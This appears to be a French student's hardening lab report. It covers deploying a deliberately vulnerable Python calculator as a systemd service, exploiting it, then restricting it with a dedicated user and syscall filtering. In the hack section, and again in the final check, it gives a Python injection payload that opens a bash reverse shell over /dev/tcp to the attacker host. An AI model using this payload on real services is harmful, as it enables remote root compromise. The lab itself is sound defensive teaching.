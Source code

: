 # Part IV : My shitty app

## 1. Test

🌞 **Téléchargez l'app Python dans votre VM**

- avec une commande `curl` par exemple
- stockez le fichier `calc.py` dans le répertoire `/opt/`
```
[dash@localhost ~]$ sudo curl https://gitlab.com/it4lik/m1-hardening-2024/-/raw/main/tp/2/calc.py -o /opt/calc.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   780  100   780    0     0   5000      0 --:--:-- --:--:-- --:--:--  5000

```

🌞 **Lancer l'application dans votre VM**

- lancez-la avec : `python3 /opt/calc.py`
- ouvrez le bon port firewall
- connectez-vous avec une commande `nc` (depuis votre PC)
- essayez d'envoyer genre "3+3" une fois connecté
- l'app doit vous répondre "6"
```
[dash@localhost ~]$ sudo firewall-cmd --add-port=13337/tcp --permanent
[sudo] password for dash: 
success
[dash@localhost ~]$ sudo firewall-cmd --reload
success
[dash@localhost ~]$ sudo python3 /opt/calc.py 


```  
Sur le shell de ma machine
```
┌─[dashboard@parrot]─[~]
└──╼ $nc 192.168.133.129 13337

Hello3+3
6

```

## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```
[dash@localhost ~]$ sudo nano /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```
[dash@localhost ~]$ sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

```
[dash@localhost ~]$ systemctl status calculatrice
○ calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: inactive (dead)
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- démarrage de l'application avec `sudo systemctl start calculatrice`
```
[dash@localhost ~]$ sudo systemctl start calculatrice
```

## 3. Hack

🌞 **Hack l'application**

- depuis votre PC, vous vous connectez à l'application Python avec `nc`
```
┌─[✗]─[dashboard@parrot]─[~]
└──╼ $nc 192.168.133.129 13337

Hello__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.168.133.128/4444 0>&1'")

```

- exploitez l'application pour obtenir un shell `root`  
```
┌─[dashboard@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.133.128] from (UNKNOWN) [192.168.133.129] 45234
bash: cannot set terminal process group (302520): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]# ls
ls
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@localhost /]# 

```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```
[dash@localhost ~]$ ps -ef | grep calc.py
root      342939       1  0 15:29 ?        00:00:00 /usr/bin/python3 /opt/calc.py
dash      344690   10782  0 15:30 pts/0    00:00:00 grep --color=auto calc.py

```

🌞 **Créer l'utilisateur `calculatrice`**

- principe du moindre privilège :
```
[dash@localhost ~]$ sudo useradd -M -N -s /sbin/nologin calculatrice
```

🌞 **Adaptez les permissions**

- le fichier `/opt/calc.py` doit appartenir à notre nouvel utilisateur
- le fichier `/opt/calc.py` doit appartenir à notre nouveau groupe
- les permissions doivent être les plus restrictives possibles pour que le service fonctionne
```
[dash@localhost ~]$ sudo chown calculatrice:calculatrice /opt/calc.py 
[dash@localhost ~]$ ls -l /opt/calc.py 
-rwxr-x---. 1 calculatrice calculatrice 780 Feb 11 14:01 /opt/calc.py

```

🌞 **Modifier le `.service`**

- ajoutez la clause `User=calculatrice`
- n'oubliez pas de `sudo systemctl daemon-reload` pour que le changement prenne effet
- redémarrez le service
```
[dash@localhost ~]$ sudo nano /etc/systemd/system/calculatrice.service
User=calculatrice
[dash@localhost ~]$ sudo systemctl daemon-reload
[dash@localhost ~]$ sudo systemctl restart calculatrice

```

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

- avec une commande `ps` et un `grep`
```
[dash@localhost ~]$ ps -ef | grep calc.py
calcula+  389956       1  1 15:53 ?        00:00:00 /usr/bin/python3 /opt/calc.py
dash      390043   10782  0 15:53 pts/0    00:00:00 grep --color=auto calc.py

```

### B. Syscalls


🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal
```
[dash@localhost ~]$ sudo sysdig proc.name=python3 > normal_trace.log
[sudo] password for dash: 
[dash@localhost ~]$ sudo cat normal_trace.log | cut -d' ' -f7 | sort | uniq | tr '\n' ' '
accept4 access arch_prctl bind brk close dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pread prlimit procexit read readlink recvfrom rseq rt_sigaction sendto set_robust_list setsockopt set_tid_address socket switch sysinfo write
```

🌞 **Tracez l'exécution de l'application : hack**

- idem, mais pendant que vous exploitez la vulnérabilité

```
[dash@localhost ~]$ sudo cat hack_trace.log | cut -d' ' -f7 | sort | uniq | tr '\n' ' '
accept4 clone3 execve getsockname mmap munmap recvfrom rt_sigaction rt_sigprocmask sendto switch wait4 [dash@localhost ~]$
```
- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?
Oui. `clone3`, `rt_sigprocmask` et `wait4`  

🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`

```
[dash@localhost ~]$ sudo nano /etc/systemd/system/calculatrice.service
SystemCallFilter=~clone3 rt_sigprocmask wait4
[dash@localhost ~]$ sudo systemctl daemon-reload
[dash@localhost ~]$ sudo systemctl restart calculatrice

```
- vérifiez que l'exploitation est devenue plus compliquée
```
┌─[dashboard@parrot]─[~]
└──╼ $nc 192.168.133.129 13337

Hello__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.168.133.128/4444 0>&1'")
┌─[dashboard@parrot]─[~]
└──╼ $
```
